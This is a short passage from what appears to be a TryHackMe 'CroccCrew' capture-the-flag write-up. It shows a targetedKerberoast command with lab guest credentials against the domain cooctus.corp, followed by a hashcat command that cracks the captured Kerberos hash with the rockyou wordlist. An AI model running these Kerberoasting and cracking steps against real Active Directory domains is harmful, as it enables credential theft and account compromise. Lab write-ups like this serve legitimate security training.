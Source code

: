 ```bash
/opt/targetedKerberoast/targetedKerberoast.py -v -u 'Visitor' -p 'GuestLogin!' -d 'cooctus.corp' --dc-host dc.cooctus.corp
```

![image.png](/assets/images/CroccCrew_THM/image%2021.png)

Saving the hash to the hashes.txt file.

Let’s try to crack this hash using hashcat.

```bash
hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt
```

![image.png](/assets/images/CroccCrew_THM/image%2022.png)
